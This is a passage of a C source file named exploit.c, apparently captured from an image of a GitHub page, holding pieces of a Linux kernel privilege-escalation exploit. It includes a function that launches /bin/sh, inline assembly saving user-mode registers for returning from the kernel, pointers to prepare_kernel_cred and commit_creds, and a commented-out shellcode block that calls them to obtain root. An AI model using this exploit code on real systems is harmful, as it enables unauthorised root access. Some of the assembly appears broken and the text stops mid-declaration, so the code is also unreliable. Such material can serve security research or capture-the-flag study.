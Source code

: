 ```exploit.c
  printf("bp: %lx bx: %lx r11: %lx r10: %lx\n", regs->bp, regs->bx, regs->r11, regs->r10);
  printf("r9: %lx r8: %lx ax: %lx cx: %lx\n", regs->r9, regs->r8, regs->ax, regs->cx);
  printf("dx: %lx si: %lx di: %lx ip: %lx\n", regs->dx, regs->si, regs->di, regs->ip);
  printf("cs: %lx flags: %lx sp: %lx ss: %lx\n", regs->cs, regs->flags, regs->sp, regs->ss);
}
void NIRUGIRI(void)
{
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
}
// should compile with -masm=intel
static void save_state(void)
{
  asm(
      "movq %0, %%cs\n"
      "movq %1, %%ss\n"
      "movq %2, %%rsp\n"
      "pushfq\n"
      "popq %3\n"
      : "=r"(user_cs), "=r"(user_ss), "=r"(user_sp), "=r"(user_rflags)
      :
      : "memory");
}

unsigned long (*rooter_pkc)(unsigned long) = 0;
unsigned long (*rooter_commit_creds)(unsigned long) = 0;

int shellcode_is_called = 0;

static void shellcode(void)
{
  //asm(
  //    "xor rdi, rdi\n"
  //    "mov rbx, QWORD PTR [rsp+0x50]\n"
  //    "sub rbx, 0x244566\n"
  //    "mov rcx, rbx\n"
  //    "call rcx\n"
  //    "mov rdi, rax\n"
  //    "sub rbx, 0x470\n"
  //    "call rbx\n"
  //    "add rsp, 0x20\n"
  //    "pop rbx\n"
  //    "pop r12\n"
  //    "pop r13\n"
  //    "pop r14\n"
  //    "pop r15\n"
  //    "pop rbp\n"
  //    "ret\n");
  //save_state();

  //shellcode_is_called = 1;
  //rooter_commit_creds(rooter_pkc(0));
}
// (END utils)

// globals
const unsigned PSIZE = 10;
int fd = 0;
const ulong ADDRBASE = 0x10000;
int write_permission = 0;
long target_offset = 0;
typedef struct
```